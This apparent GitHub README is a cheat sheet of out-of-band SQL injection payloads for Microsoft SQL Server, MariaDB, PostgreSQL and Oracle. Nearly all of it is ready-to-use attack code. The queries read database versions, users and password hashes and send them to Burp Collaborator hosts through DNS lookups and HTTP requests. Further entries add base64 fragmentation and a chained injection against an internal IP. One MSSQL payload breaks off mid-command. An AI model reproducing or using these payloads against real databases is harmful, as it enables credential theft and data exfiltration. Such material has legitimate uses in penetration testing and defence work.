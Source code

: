 # OOB-SQLi

Out-of-Band (OOB) Structured Query Language (SQL) Injection is an exploitation to exfiltrate data from database through different outbound channel. Common channel use by OOB SQL Injection for data exfiltration are through Domain Name Server (DNS) and HyperText Transfer Protocol (HTTP) channels. 

# DNS Based Exfiltration

1. Microsoft SQL database

DECLARE @a varchar(1024); DECLARE @b varchar(1024); SELECT @a = (SELECT system_user);   SELECT @b = (SELECT DB_Name()); EXEC('master..xp_dirtree

2. MariaDB

select load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollaborator.net\\vfw')) 

3. PostgreSQL database

DROP TABLE IF EXISTS table_output; CREATE TABLE table_output(content text); CREATE OR REPLACE FUNCTION temp_function()RETURNS VOID AS $$ DECLARE exec_cmd TEXT; DECLARE query_result_version TEXT; DECLARE query_result_user TEXT; DECLARE query_result_password TEXT; BEGIN SELECT INTO query_result_version (SELECT current_setting('server_version')); SELECT INTO query_result_user (SELECT usename FROM pg_shadow); SELECT INTO query_result_password (SELECT passwd FROM pg_shadow); exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result_version||'.'||query_result_user||'.'||query_result_password||E'.n4sg4c5uh0t38fdncn1496qg47axym.burpcollaborator.net\\\\foobar.txt\''; EXECUTE exec_cmd; END; $$ LANGUAGE plpgsql SECURITY DEFINER; SELECT temp_function();

4. Oracle database

SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;

# HTTP Based Exfiltration

1. Oracle database

SELECT UTL_HTTP.request('http://fexvz59jd1088tjhf7y6z0onkeq4et.burpcollaborator.net/'||'?version='||(SELECT version FROM v$instance)||'&'||'user='||(SELECT user FROM dual)||'&'||'hashpass='||(SELECT spare4 FROM sys.user$ WHERE rownum=1)) FROM dual;

# Advanced OOB SQL Injection

1. Fragmentation + Encoding

DECLARE @d varchar(1024); DECLARE @T varchar(1024); SELECT @d = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), 1,LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@d, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

DECLARE @e varchar(1024); DECLARE @T varchar(1024); SELECT @e = (SELECT SUBSTRING(CAST(SERVERPROPERTY('edition') as varbinary(max)), LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))/2, LEN(CAST(SERVERPROPERTY('edition') as varbinary(max)))) FOR XML PATH(''), BINARY BASE64); SELECT @T = (SELECT REPLACE(@e, '=', '')); EXEC('master..xp_dirtree "\\'+@T+'.ophd0voy
beiseglonirht1morfx5lu.burpcollaborator.net\egg$"');                 

2. Chain of SQL Injection (Oracle DB + MariaDB)

SELECT UTL_HTTP.request('http://192.168.220.130/sqli.php?id=1%27%2b%28%28select%20load%5ffile%28CONCAT%28%27%5c%5c%5c%5c%27%2c%28SELECT%2buser%29%2c%27%2e%27%2c%28SELECT%2bpassword%29%2c%27%2e%27%2c%27jobuvs89ieon1z3f1qjkc0phk8qyen%2eburpcollaborator%2enet%5c%5cvfw%27%29%29%29%29%2b%27') FROM dual;                                                           

